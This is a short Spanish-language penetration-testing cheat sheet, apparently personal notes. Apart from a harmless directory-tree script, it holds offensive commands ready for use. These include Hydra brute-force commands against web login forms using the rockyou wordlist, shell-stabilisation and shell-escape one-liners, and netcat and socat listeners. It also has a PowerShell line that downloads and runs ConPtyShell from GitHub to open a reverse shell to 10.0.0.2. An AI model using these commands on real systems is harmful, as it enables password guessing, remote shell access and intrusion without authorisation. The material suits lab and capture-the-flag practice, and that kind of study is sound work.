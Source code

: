 # General

## Utilidades

### Linux

#### tree.sh

```bash
#!/bin/bash
pwd=$(pwd)
echo Tree of: $pwd
find $pwd -print | sed -e "s;$pwd;\.;g;s;[^/]*\/;|__;g;s;__|; |;g"
#very simple script. REALLY!
echo '|__end tree'
```

## Herramientas

### Hydra

```bash
hydra -l <USER> -p <PASSWORD> <IP_ADDRESS> http-post-form "<LOGIN_PAGE>:<REQUEST_BODY>:<ERROR_MESSAGE>"
```

##### JSON Payload

```bash
hydra -l "root@dasith.works" -P "/usr/share/wordlists/rockyou.txt" -s 3000 10.129.244.81 http-post-form "/api/user/login:{\"email\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:S=Password is wrong:H=content-type: application/json"
```

## TTY

### Linux

```text
ctrl + z
echo $TERM && tput lines && tput cols

# bash
stty raw -echo
fg

# zsh
stty raw -echo; fg

reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

socat:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:1234
```

Intérprete:

```text
/usr/bin/script -qc /bin/bash /dev/null
/bin/sh -i
python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c "__import__('pty').spawn('/bin/bash')"
python3 -c "__import__('subprocess').call(['/bin/bash'])"
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
perl -e 'print `/bin/bash`'
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')

# vi
:!bash
:set shell=/bin/bash:shell

# nmap
!sh

# mysql
! bash
```

### Windows

[ConPtyShell](https://github.com/antonioCoco/ConPtyShell)

Server:

```bash
# 1
rlwrap nc -lvnp 3001

# 2
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

Cliente:

```powershell
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```

# Proxy debugging

TODO: Agregar comandos de shellhacks.com para redireccionar todo el tráfico de la consola a burpsuite
